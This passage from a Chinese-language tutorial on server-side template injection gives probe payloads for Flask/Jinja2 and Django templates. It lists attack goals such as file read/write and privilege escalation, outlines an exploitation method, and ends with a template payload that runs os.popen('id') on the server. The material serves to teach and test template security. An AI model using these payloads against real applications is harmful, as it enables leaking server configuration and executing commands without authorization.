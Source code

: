 - Flask/Jinja2

```
{% assign openTag = '{{ ' %}
{{ openTag }} config.items() }}
{{ openTag }}''.__class__.__mro__[-1].__subclasses__()}}

```

- Django

```
{% assign openTag = '{' %}
{{ openTag }}{ request }}
{{ openTag }}% debug %}
{{ openTag }}% load module %}
{{ openTag }}% include "x.html" %}
{{ openTag }}% extends "x.html" %}
```

##### 2.目标

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

#### 四、漏洞利用

##### 1.读文档

读模板文献是构造 exp 的第一步。一般来讲，我们需要关注如下部分：

- 'Template 使用手册'，这一部分通常告诉我们基本的模板语法
- '安全问题'，在攻击模板时，它通常可以提供我们许多思路
- 内建方法，函数，变量，过滤器
- 插件/扩展——我们可以优先研究默认开启的

##### 2.探环境

当我们构建出了可用 exp 后，我们需要考虑我们当前环境可利用的函数/对象。除了模板默认的对象和我们提供的参数外，大部分模板引擎都有一个包含当前命名空间所有信息的对象（比如 self），或者一个可以列出所有属性和方法的函数。

如果没有这样的对象或函数，我们需要暴力枚举变量名。有些时候，开发者也会在模板中包含了一些敏感信息。

##### 3.黑程序

不要局限目光于通用特性，我们还需注意到不同开发者的实现细节。

用模板注入来实现任意对象创建，任意文件读写，远程文件包含，信息泄露以及提权。

有些时候，攻破一个程序不需要多少时间，比如：{php}echo id;{/php}

这时，我们只需递交：

```jsp
<%
import os
x=os.popen('id').read()
%>
${x}
```
